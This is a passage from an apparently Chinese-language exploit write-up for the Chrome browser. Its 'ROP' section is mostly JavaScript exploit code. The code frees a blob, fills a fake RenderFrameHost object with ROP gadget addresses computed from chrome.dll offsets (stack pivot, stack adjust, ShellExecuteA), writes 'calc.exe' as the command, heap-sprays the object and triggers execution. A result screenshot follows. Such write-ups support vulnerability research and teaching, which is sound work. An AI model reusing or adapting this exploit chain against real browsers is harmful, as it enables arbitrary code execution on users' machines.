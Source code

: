 ### <a class="reference-link" name="ROP"></a>ROP

现在，准备工作都做好了，那么就可以直接进行ROP了

```
//释放blob，重新heap spray
      await allocation.free();
      console.log("rfh_addr=0x" + rfh_addr.toString(16));
      //0x00000001814fbfae : xchg rax, rsp ; ret
      var xchg_rax_rsp = chrome_dll_base + 0x14fbfaen;
      //0x00000001850caadf : mov rax, qword ptr [rcx + 0x10] ; add rcx, 0x10 ; call qword ptr [rax + 0x158]
      var adjust_register = chrome_dll_base + 0x50caadfn;
      //0x0000000184ebc82f : add rsp, 0x158 ; ret
      var add_rsp_158 = chrome_dll_base + 0x4ebc82fn;
      var shellExecuteA = chrome_dll_base + 0x3FA9C0Fn;
      var pop_rsi = chrome_dll_base + 0x13b8n;
      fakeRFH.fill(0n);
      //fake
      fakeRFH[0] = rfh_addr;
      fakeRFH[0x10 / 0x8] = rfh_addr + 0x18n;
      fakeRFH[0x18 / 0x8] = add_rsp_158;

      fakeRFH[0xc8 / 0x8] = adjust_register;
      fakeRFH[0x170 / 0x8] = xchg_rax_rsp;

      //now rop
      fakeRFH[0x178 / 0x8] = pop_rsi;
      fakeRFH[0x180 / 0x8] = rfh_addr + 0x1c0n;
      fakeRFH[0x188 / 0x8] = shellExecuteA;
      fakeRFH[0x1b0 / 0x8] = 0n;
      fakeRFH[0x1b8 / 0x8] = 0x3n;

      //cmd
      var cmd = "calc.exe\x00";
      var cmd_buf = new Uint8Array(fakeRFH.buffer);
      for (var i=0;i&lt;cmd.length;i++) `{`
         cmd_buf[0x1c0 + i] = cmd.charCodeAt(i);
      `}`

      //heap spray
      for (var i=0;i&lt;spray_count;i++) `{`
         await allocate(fakeRFH.buffer);
      `}`

      //run
      await antNestPtr.store("");
```

效果如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t018551319636bf1e64.png)
